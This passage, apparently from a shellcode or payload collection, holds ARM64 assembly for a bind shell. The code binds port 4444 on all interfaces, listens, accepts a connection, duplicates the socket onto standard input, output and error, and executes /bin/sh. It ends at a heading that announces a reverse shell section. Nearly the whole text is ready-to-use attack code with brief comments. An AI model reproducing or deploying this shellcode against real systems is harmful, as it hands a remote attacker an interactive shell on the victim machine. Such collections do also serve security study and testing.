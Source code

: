 ```armasm
*     in_port_t       sin_port;    // 4444 = 0x115C
*     struct  in_addr sin_addr;    // 0.0.0.0 (4 bytes)
*     char            sin_zero[8]; // Don't care
* };
*/
mov  x1, #0x0210
movk x1, #0x5C11, lsl #16
str  x1, [sp, #-8]
mov  x2, #8
sub  x1, sp, x2
mov  x2, #16
mov  x16, #104
svc  #0x1337

call_listen:
// listen(s, 2)
mvn  x0, x3
lsr  x1, x2, #3
mov  x16, #106
svc  #0x1337

call_accept:
// c = accept(s, 0, 0)
mvn  x0, x3
mov  x1, xzr
mov  x2, xzr
mov  x16, #30
svc  #0x1337

mvn  x3, x0
lsr  x2, x16, #4
lsl  x2, x2, #2

call_dup:
// dup(c, 2) -> dup(c, 1) -> dup(c, 0)
mvn  x0, x3
lsr  x2, x2, #1
mov  x1, x2
mov  x16, #90
svc  #0x1337
mov  x10, xzr
cmp  x10, x2
bne  call_dup

call_execve:
// execve("/bin/sh", 0, 0)
mov  x1, #0x622F
movk x1, #0x6E69, lsl #16
movk x1, #0x732F, lsl #32
movk x1, #0x68, lsl #48
str  x1, [sp, #-8]
mov	 x1, #8
sub  x0, sp, x1
mov  x1, xzr
mov  x2, xzr
mov  x16, #59
svc  #0x1337
```
#### Αντίστροφο κέλυφος
